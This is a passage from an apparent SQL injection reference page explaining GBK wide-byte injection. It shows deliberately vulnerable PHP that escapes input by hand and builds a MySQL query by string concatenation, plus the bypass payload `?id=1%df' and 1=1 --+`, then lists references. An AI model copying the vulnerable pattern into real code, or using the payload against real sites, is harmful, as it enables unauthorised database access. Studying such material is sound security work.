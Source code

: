 Here is a PHP example using GBK encoding and filtering the user input to escape backslash, single and double quote.

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

Here's a breakdown of how the wide byte injection works:

For instance, if the input is `?id=1'`, PHP will add a backslash, resulting in the SQL query: `SELECT * FROM users WHERE id='1\'' LIMIT 0,1`.

However, when the sequence `%df` is introduced before the single quote, as in `?id=1%df'`, PHP still adds the backslash. This results in the SQL query: `SELECT * FROM users WHERE id='1%df\'' LIMIT 0,1`. 

In the GBK character set, the sequence `%df%5c` translates to the character `連`. So, the SQL query becomes: `SELECT * FROM users WHERE id='1連'' LIMIT 0,1`. Here, the wide byte character `連` effectively "eating" the added escape charactr, allowing for SQL injection.

Therefore, by using the payload `?id=1%df' and 1=1 --+`, after PHP adds the backslash, the SQL query transforms into: `SELECT * FROM users WHERE id='1連' and 1=1 --+' LIMIT 0,1`. This altered query can be successfully injected, bypassing the intended SQL logic.


## References

- [[SQLi] Extracting data without knowing columns names - Ahmed Sultan - February 9, 2019](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [A Scientific Notation Bug in MySQL left AWS WAF Clients Vulnerable to SQL Injection - Marc Olivier Bergeron - October 19, 2021](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/)
- [Alternative for Information_Schema.Tables in MySQL - Osanda Malith Jayathissa - February 3, 2017](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
- [Ekoparty CTF 2016 (Web 100) - p4-team - October 26, 2016](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Error Based Injection | NetSPI SQL Injection Wiki - NetSPI - February 15, 2021](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [How to Use SQL Calls to Secure Your Web Site - IPA ISEC - March 2010](https://www.ipa.go.jp/security/vuln/ps6vr70000011hc4-att/000017321.pdf)
- [MySQL Out of Band Hacking - Osanda Malith Jayathissa - February 23, 2018](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [SQL Truncation Attack - Rohit Shaw - June 29, 2014](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [SQLi filter evasion cheat sheet (MySQL) - Johannes Dahse - December 4, 2010](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/)
- [The SQL Injection Knowledge Base - Roberto Salgado - May 29, 2013](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)